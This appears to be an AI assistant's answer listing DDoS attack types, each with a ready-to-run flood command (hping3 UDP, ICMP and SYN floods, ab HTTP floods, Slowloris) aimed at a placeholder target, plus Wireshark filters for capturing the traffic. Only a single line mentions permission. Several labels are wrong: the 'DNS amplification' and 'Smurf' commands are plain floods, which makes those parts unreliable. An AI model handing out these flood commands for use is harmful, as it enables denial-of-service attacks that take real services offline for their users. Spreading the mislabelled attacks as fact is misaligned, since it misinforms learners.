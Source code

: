 let's break down each type of DDoS attack, their aims, effects, and how to capture them using Wireshark. Remember, these attacks should only be performed in a controlled environment where you have explicit permission.

### 1. Volume-Based Attacks
**Aim:**
Volume-based attacks aim to overwhelm the target with a massive amount of traffic, consuming bandwidth and resources.

**Types:**
- **UDP Flood:**
  - **Command:**
    ```bash
    hping3 -2 -p 53 --flood -V <target_ip>
    ```
  - **Wireshark Filter:**
    ```plaintext
    udp
    ```

- **ICMP Flood (Ping Flood):**
  - **Command:**
    ```bash
    hping3 -C 8 --flood -V <target_ip>
    ```
  - **Wireshark Filter:**
    ```plaintext
    icmp
    ```

- **DNS Amplification:**
  - **Command:**
    ```bash
    hping3 -2 -p 53 --flood -V <target_ip>
    ```
  - **Wireshark Filter:**
    ```plaintext
    dns
    ```

**Effect:**
These attacks can saturate the target's bandwidth, making it unavailable to legitimate users.

### 2. Protocol Attacks
**Aim:**
Protocol attacks exploit weaknesses in the network protocol stack, consuming server resources.

**Types:**
- **SYN Flood:**
  - **Command:**
    ```bash
    hping3 -S -p 80 --flood -V <target_ip>
    ```
  - **Wireshark Filter:**
    ```plaintext
    tcp.flags.syn == 1
    ```

- **Ping of Death:**
  - **Command:**
    ```bash
    hping3 -C 8 --flood -V -d 65500 <target_ip>
    ```
  - **Wireshark Filter:**
    ```plaintext
    icmp
    ```

- **Smurf Attack:**
  - **Command:**
    ```bash
    hping3 -C 8 --flood -V <target_ip>
    ```
  - **Wireshark Filter:**
    ```plaintext
    icmp
    ```

**Effect:**
These attacks can exhaust server resources, leading to denial of service.

### 3. Application Layer Attacks
**Aim:**
Application layer attacks target specific applications or services, overwhelming them with requests.

**Types:**
- **HTTP GET/POST Flood:**
  - **Command:**
    ```bash
    ab -n 10000 -c 100 <target_url>
    ```
  - **Wireshark Filter:**
    ```plaintext
    http
    ```

- **Slowloris:**
  - **Command:**
    ```bash
    slowloris <target_ip> -p 80 -s 500 -t 100
    ```
  - **Wireshark Filter:**
    ```plaintext
    http
    ```

- **XML/JSON API Flood:**
  - **Command:**
    ```bash
    ab -n 10000 -c 100 -p postdata.txt <target_url>
    ```
  - **Wireshark Filter:**
    ```plaintext
    http
    ```

**Effect:**
These attacks can exhaust application resources, making the service unavailable to legitimate users.

### Capturing Traffic with Wireshark
To capture the traffic for these attacks, follow these steps:

1. **Start Wireshark:**
   - Open Wireshark and select the network interface you want to capture traffic on.

2. **Apply Filters:**
   - Use the appropriate Wireshark filters mentioned above to capture the specific type of traffic.

3. **Start Capture:**
   - Begin the capture before initiating the attack.

4. **Analyze Traffic:**
   - After the attack, stop the capture and analyze the traffic to observe the effects of the attack.

Would you like me to explain or break down any of the commands or filters further?
